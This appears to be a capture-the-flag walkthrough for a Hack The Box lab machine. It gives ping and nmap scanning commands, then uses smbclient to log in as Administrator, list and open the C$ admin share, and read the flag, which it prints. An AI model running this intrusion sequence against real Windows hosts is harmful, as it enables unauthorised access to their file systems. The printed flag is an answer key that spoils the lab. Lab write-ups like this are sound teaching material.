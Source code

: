 ![Tactics.jpg](/assets/Tier-1/Tactics/Tactics.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.16.70
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.16.70
```

**Output**
``` bash
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

3. Try to list all shares directories how user **Administrator**
```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─| smbclient -L 10.129.16.70 -U Administrator
```

**Output**
```bash
    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
```

4. Connect to `C$`
```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─| smbclient \\\\10.129.16.70\\C$ -U Administrator
```

**Output**
```bash
smb: \> ls
  $Recycle.Bin                      DHS        0  Wed Apr 21 11:23:49 2021
  Config.Msi                        DHS        0  Wed Jul  7 14:04:56 2021
  Documents and Settings          DHSrn        0  Wed Apr 21 11:17:12 2021
  pagefile.sys                      AHS 738197504  Sat Nov 19 09:49:01 2022
  PerfLogs                            D        0  Sat Sep 15 03:19:00 2018
  Program Files                      DR        0  Wed Jul  7 14:04:24 2021
  Program Files (x86)                 D        0  Wed Jul  7 14:03:38 2021
  ProgramData                        DH        0  Tue Sep 13 12:27:53 2022
  Recovery                         DHSn        0  Wed Apr 21 11:17:15 2021
  System Volume Information         DHS        0  Wed Apr 21 11:34:04 2021
  Users                              DR        0  Wed Apr 21 11:23:18 2021
  Windows                             D        0  Wed Jul  7 14:05:23 2021
```

5. Cat flag in path `\Users\Administrator\Desktop\`
```bash
smb: \Users\Administrator\Desktop\> more flag.txt
f751c19eda8f61ce81827e6930a1f40c
```







